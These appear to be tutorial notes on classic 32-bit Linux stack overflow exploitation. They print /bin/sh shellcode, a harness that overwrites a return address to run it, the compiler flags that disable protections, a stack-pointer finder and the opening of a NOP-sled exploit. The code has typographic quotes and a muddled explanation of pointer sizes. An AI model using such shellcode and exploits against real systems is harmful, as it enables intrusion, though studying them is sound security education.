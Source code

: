 	- In the below example, the shellcode array is more or less the opcode representation of ```shell.c```

```
// shellcode.c
char shellcode[] =
    “\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46”	
	“\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1”
    “\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68”;

int main() {			// 1
    int *ret;			// 2
    ret = (int *)&ret + 2;	// 3
    (*ret) = (int)shellcode;	// 4
}
```
- *Line 2:* Defines a variable on the stack, sets an int pointer
- *Line 3:* Lets the ret variable point to an int * that is placed two ints (aka 64 bits, because 1 int * is a 32-bit integer) above ret on the stack. Supposedly, that is where the return address is located; where the program will continue after main() returns.
- *Line 4:* The return address is set to the address of the shellcode array's contents, so tha shellcode's contents will be executed when main() returns.
- **NOTE:** To compile this code and get it to execture a shell on Ubuntu 18.04 using GCC version 7.4.0, I had to run the following command (the -m32 is optional): ```gcc -m32 -fno-stack-protector -z execstack ./shellcode.c -o shellcode```

## 
## 
- One of the most difficult tasks you face when trying to execute user-supplied shellcode is identifying the starting address of your shellcode. The most popular method is seen below (from "Smashing The Stack" in Phrack)
```
  // find_start.c
  unsigned long find_start(void)
  {
    __asm__(“movl %esp, %eax”);
  }
int main() {
     printf(“0x%x\n”,find_start());
  }
```
- ```find_start.c``` is a simple program to tell us the location of the stack pointer (ESP). Once we know the address of ESP, we simply need to guess the distance, or offset, from this address. The offset will be the first instruction in our shellcode.
	- This method works because for every program, the stack begins at the same address.
		- **Note:** This method will not work if there are enhanced security techniques employed,such as Address Stack Layout Randomization (ASLR), or you are using a distribution of linux with the gsecurity patch (or something similar).
##
##
```
// nop_attack.c
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90
char shellcode[] =
    “\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46”
    “\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1”
    “\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68”;

unsigned long get_sp(void) {
    __asm__(“movl %esp,%eax”);
}

```